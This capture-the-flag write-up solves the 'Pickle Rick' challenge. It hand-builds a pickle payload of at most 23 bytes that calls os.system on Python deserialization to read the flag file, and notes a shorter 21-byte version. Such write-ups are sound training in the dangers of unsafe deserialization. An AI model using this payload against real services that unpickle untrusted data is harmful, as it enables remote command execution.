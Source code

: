# Pickle Rick
**Category:** misc

**Author:** _Rok0'sBasilisk_

## Description
It's Pickle Riiiick! Morty \*burp\* look at me! Not only am I a pickle, I can play golf at the same time!

## Solution
<details>
 <summary>Reveal Spoiler</summary>

The first step is to inspect the code of the challenge using the `!code` command. Through code review it is obvious that this is a pickle deserialization challenge, however there is a single requirement to get a working exploit. The pickled payload must be at maximum 23 bytes.

This is a classic golf challenge with the aim of making the pickled payload as compact as possible. 

It is critical that particiapts craft the pickled object manually rather than relying on the `pickle` library, so that unnecessary bytes are avoided.

Here is a working exploit:
```
import base64

from pickle import PROTO, SHORT_BINUNICODE, GLOBAL, TUPLE1, REDUCE, STOP

golf_payload = \
    PROTO + b"\x04" + \
    GLOBAL + b"os\nsystem\n" + \
    SHORT_BINUNICODE + b"\x05" + b". /f*" + \
    TUPLE1 + \
    REDUCE + \
    STOP

print(base64.b64encode(golf_payload).decode("utf-8"))
```

Note that you need to use `ls` initially, to observe that the flag is in the root dir.

**UPDATE: ** Apparently the protocol line is not required! So this can be reduced to 21 bytes. That's why [Pickle Rick II](../pickle-rick-ii/) was created
</details>